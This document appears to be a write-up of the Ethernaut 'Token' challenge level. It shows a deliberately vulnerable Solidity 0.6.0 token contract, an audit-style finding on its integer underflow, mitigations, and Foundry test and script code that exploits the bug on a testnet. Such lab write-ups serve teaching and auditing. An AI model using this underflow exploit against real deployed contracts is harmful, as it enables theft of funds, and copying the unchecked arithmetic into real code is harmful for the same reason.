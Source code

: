 # Level 5: Token

**Level Page**: [See on Ethernaut](https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407)

**Description**:

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

`Description after completing level`:

Overflows are very common in solidity and must be checked for with control statements such as:

```javascript
if(a + c > a) {
  a = a + c;
}
```

An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

```javascript
a = a.add(c);
```

If there is an overflow, the code will revert.

**Code**:

<details>
<summary>Code to be exploited</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

</details>

# Findings

### [M-1] Uint overflow allows anyone to update the token balance to a huge one

**Description**: The solidity `uint256` has a limit of numbers, where the max number is `2**256 - 1` and the minimum is `0` (zero). Because of that you can face problems when casting or while making some calculation, so we need to be careful, mainly when using an old version of solidity as `0.6.0`. After Solidity version `0.8.0`, if there is an overflow or underflow, the code will revert.

But, as the code is using solidity `0.6.0`, the overflow and underflow are allowed. This means that if the `_value` in the `Token::transfer` function is the total amount of tokens that the sender has plus one, the contract would calculate something like:
- `userBalance = userBalance - (userBalance + 1)` 

this is the same as 

- `userBalance = 0 - 1`

and here we have an underflow, where `userBalance` would be something like: `115792089237316195423570985008687907853269984665640564039457584007913129639935` that is the `uint256` max number.

**Impact**: Users can update their token balance to be a huge number by exploiting an underflow.

**Proof of Code**

Code snippet from `TokenAttack.t.sol`.

```javascript
function testShouldStoleAllTokens() public{
  address receiver = makeAddr("receiver");

  vm.prank(attacker);
  token.transfer(receiver, INITIAL_SUPPLY+1);

  uint256 underflowNumber = uint256(0 - 1); //115792089237316195423...
  assertEq(token.balanceOf(attacker), underflowNumber);
}
```

**Recommended Mitigation**: There are some recommendations to fix this issue:

- Use the [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math) library from OpenZeppelin that already addresses this problem.
- Use a later Solidity version, recommended above `0.8.13`. Later versions do not allow integers overflow and underflows.

```diff
- pragma solidity 0.6.0;
+ pragma solidity 0.8.20;
```

- Use a pattern to develop Tokens as OpenZeppelin [ERC20](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol). These patterns already addresses these problems.

# Attack

**Description**: To exploit this bug, we can just execute `Token::transfer` to another address sending in the `_value` the `totalSupply + 1` as your address is the only holder (`make attack`).

Code snippet from `TokenAttack.s.sol`:

```javascript
  // Getting the total Supply
  uint256 totalSupply = token.totalSupply();

  vm.startBroadcast(attackerPK);

  // Attack
  token.transfer(address(0), totalSupply + 1);

  vm.stopBroadcast();
```

And after that run `make submit` to submit the level to Ethernaut contract.

**Instance used**: [0x3B73aDaaFF46681F725bfb23A7414554458C6D0E](https://sepolia.etherscan.io/address/0x3B73aDaaFF46681F725bfb23A7414554458C6D0E)

**Attack Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0x32db0a045a9d64c04301751887f085ef97d6bb4316fbc05b6017630f1906ded3)

**Level Completed Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0xcd583eacd2fb35d4c067497ca4c830d73e2e062b48f439d2196284b79c08e081)

# Getting started

## Build

```bash
make build
```

## Test

```bash
make test
```

## Attack (testnet)

```bash
make attack
```

## Submit level (testnet)

```bash
make submit
```

## Check if you completed the level (testnet)

`true` - You completed the level
`false` - You didn't complete the level

```bash
make check
```